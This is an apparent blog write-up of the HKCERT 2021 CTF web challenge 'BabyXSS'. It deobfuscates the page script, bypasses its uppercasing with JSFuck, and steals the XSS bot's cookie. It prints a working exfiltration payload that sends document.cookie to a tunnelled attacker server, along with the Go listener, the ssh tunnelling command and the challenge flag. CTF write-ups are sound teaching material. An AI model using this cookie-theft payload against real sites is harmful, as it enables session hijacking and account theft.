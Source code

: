 ```yaml
---
title: "HKCERT CTF 2021: 純孩兒 BabyXSS"
description: ""
date: 2021-11-16T02:00:32+08:00
math: false
draft: false
tags: ["ctf", "hkcert21", "web", "xss"]
---
```


> **This post is part of the [HKCERT 2021 CTF series](/tags/hkcert21).**

---

|     Name     | 純孩兒 (BabyXSS)                 |
| :----------: | -------------------------------- |
|     Tags     | web                              |
|    Points    | 100                              |
|  Difficulty  | ★☆☆☆☆                            |
|    Solves    | 37 (total of all four divisions) |
| Release Date | 2021-11-13 02:00:00              |

> Have you tried the infant XSS challenge in the training platform? If you did, then you can try out this BABY XSS CHALLENGE...
>
> http://babyxss-m7neh9.hkcert21.pwnable.hk
>
> XSS Bot: http://xssbot-cxild5.hkcert21.pwnable.hk

---

## Step 1: Obtaining

Check the source code of the page by prepending `view-source:` to the URL, i.e., `view-source:http://babyxss-m7neh9.hkcert21.pwnable.hk/`.

```html
<HTML>
<HEAD>
	<TITLE>BABY XSS</TITLE>
</HEAD>
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
<H1>BABY XSS</H1>
<TEXTAREA ID="INPUT" ONCHANGE="WINDOW[LOCATION][HASH]=WINDOW[ENCODEURI](INPUT[VALUE])" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<IFRAME ID="OUTPUT" STYLE="WIDTH:400;HEIGHT:300"></IFRAME>
<SCRIPT>
	TOUPPERCASE = "\164\157\125\160\160\145\162\103\141\163\145";
	SUBSTR = "\163\165\142\163\164\162";
	ENCODEURI = "\145\156\143\157\144\145\125\122\111";
	DECODEURI = "\144\145\143\157\144\145\125\122\111";
	VALUE = "\166\141\154\165\145";
	SRCDOC = "\163\162\143\144\157\143";
	CONTENTWINDOW = "\143\157\156\164\145\156\164\127\151\156\144\157\167";
	PARENT = "\160\141\162\145\156\164";
	LOCATION = "\154\157\143\141\164\151\157\156";
	HASH = "\150\141\163\150";
	WINDOW = OUTPUT[CONTENTWINDOW][PARENT];

	CONVERT = () => {
		INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
		OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
	}
</SCRIPT>
</BODY>
</HTML>
```

We can see that this whole piece of code is uppercased. Also, the strings in the code inside the `script` tag is not readable, maybe because it's obfuscated?

So we input this whole piece of JavaScript code into https://deobfuscate.io. This is what we get.

```javascript {linenostart=10}
TOUPPERCASE = "toUpperCase";
SUBSTR = "substr";
ENCODEURI = "encodeURI";
DECODEURI = "decodeURI";
VALUE = "value";
SRCDOC = "srcdoc";
CONTENTWINDOW = "contentWindow";
PARENT = "parent";
LOCATION = "location";
HASH = "hash";
WINDOW = OUTPUT[CONTENTWINDOW][PARENT];
CONVERT = () => {
  INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
  OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
};
```

## Step 2: Analysing

Now that the code is made readable, we can clean up the code and figure out the flow of how this page works.

1. In **Line 7**, we can see that whenever the content in the text area is changed, a URL-encoded form of the content inside is appended to the current URL after a `#` (the hash part of the URL).
```html {linenostart=7}
<TEXTAREA ID="INPUT" ONCHANGE="window.location.hash=window.encodeURI(INPUT.value)" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<!-- the cleaned code above is equivalent to the original -->
```
2. In **Line 5**, we can see that whenever the page is loaded or the hash part in the current URL is changed, the `CONVERT` function is called.
```html {linenostart=5}
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
```
3. The `CONVERT` function is essentially replacing the content in the text area with the URL-decoded form of the hash part of the current URL, and also setting the `srcdoc` attribute of the output iframe to the uppercased form of the content in the text area.
```javascript {linenostart=21,hl_lines=[2]}
CONVERT = () => {
  document.getElementById("INPUT").value = window.decodeURI(window.location.hash.substr(1)); // substr(1) removes the '#' prefix
  document.getElementById("OUTPUT").srcdoc = INPUT.value.toUpperCase();
}; // the above code is cleaned and is equivalent to the original
```

## Step 3: XSS Attack Procedure

{{< figure src="1.png" width=600 >}}

Since the hash part of the current URL updates correspondingly to the current content in the input text area, it acts like a "state-saving-and-restoring" function. This means when we type some input in the text area, the hash part of the current URL is updated as it saves our input. If we pass the URL to the victim, the content in the input text area is restored from the hash part of the URL once the page is loaded.

In order to achieve XSS, we need to figure out some way to execute JavaScript in victim's browser as we can then get access to sensitive information (e.g., cookies) stored in his browser. To do that, we can make use of the iframe `srcdoc` mechanism as this attribute allows us to inject source document including JavaScript code into the iframe document. If we use JavaScript code as the input, when the victim loaded the page given a URL, the input content is restored and the JavaScript code will be executed in victim's browser.

Note that HTML tags are **case-insensitive**, whereas JavaScript variables are **case-sensitive**. This is rather important in this challenge because although there is no escaping or encoding used, the input content is uppercased (in Line 9) before being inserted into the `srcdoc` attribute of the output iframe.

This means that if we directly inject something like `<script>alert(1)</script>` into the output iframe as the code will become `<SCRIPT>ALERT(1)</SCRIPT>`, it won't be triggered due to `Uncaught ReferenceError: ALERT is not defined`.

So we need to come up with a way to bypass the uppercase transformation so that the code can still be executed even after being uppercased. A simple Google search with "*javascript uppercase xss*" returns a *StackExchange* question as the first result: [How can I execute a XSS when a web application transforms a data from lowercase to uppercase?](https://security.stackexchange.com/questions/117798/how-can-i-execute-a-xss-when-a-web-application-transforms-a-data-from-lowercase)

It turns out that we can use *JSFuck* to transform plain JavaScript code into its equivalent in the form of `[]()!+` characters. This effectively bypasses the uppercase transformation while still can execute the code that does the same thing.

## Step 4: Exploit

Now in order for us to get the cookie stored in the victim's browser, we can use `document.cookie`. We also need to make a way for us to receive this cookie. We can expose a simple LAN web server to the Internet and make a request to the server with `document.cookie` as part of the request.

This is the simple web server I used.

```go
// file: server.go
package main

import (
	"fmt"
	"net/http"
)

func root(w http.ResponseWriter, req *http.Request) {
	fmt.Println(req.URL.String())  // log the request URL
	fmt.Fprintf(w, "hello\n")
}

func main() {
	http.HandleFunc("/", root)
	http.ListenAndServe(":1313", nil) // localhost on port 1313
}
```

Run it with `go run server.go`, then expose it to the Internet using a free tunnelling service: http://localhost.run by running `ssh -R 80:localhost:1313 nokey@localhost.run`. Now we get a temporary hosted web server that can be accessed by the victim as well.

In order for the victim's browser to send its cookie to my server, our XSS payload can tell it to navigate to the URL of our server with the cookie as part of the URL query so that my server logs this URL that contains the cookie.

The following is the XSS payload I used. The URL domain is the one provided by the tunnelling service.

```javascript {linenos=false}
location.href="https://7795a3052e14c9.lhr.domains/?"+document.cookie
```

Then we will need to *JSFuck* the XSS payload, wraps it with the `script` tag, and type it into the input text area. Now you see the URL has changed, copy the URL and send it to the XSS Bot. Hooray! Now the flag shows up in the stdout of our server! `hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}`

```bash {linenos=false}
$ go run server.go
/?
/?flag=hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}
```
